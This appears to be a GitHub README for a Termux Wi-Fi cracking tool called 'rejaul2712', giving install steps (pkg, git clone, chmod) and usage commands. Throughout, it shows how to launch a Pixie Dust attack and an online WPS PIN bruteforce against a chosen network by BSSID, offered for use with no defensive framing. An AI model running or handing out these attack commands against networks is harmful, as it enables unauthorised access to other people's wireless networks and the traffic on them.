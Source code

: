 # rejaul2712

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

git clone https://github.com/princeicon2712/rejaul2712.git

$ cd rejaul2712

$ chmod +x *

$ python rejaul.py -h

plz' go to HOME

Example : sudo python rejaul.py -i wlan0 -K

Note:

First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.

sudo python rejaul.py -i wlan0 -K

Start Pixie Dust attack on a specified BSSID: 

sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K

Launch online WPS bruteforce with the specified first half of the PIN:

sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
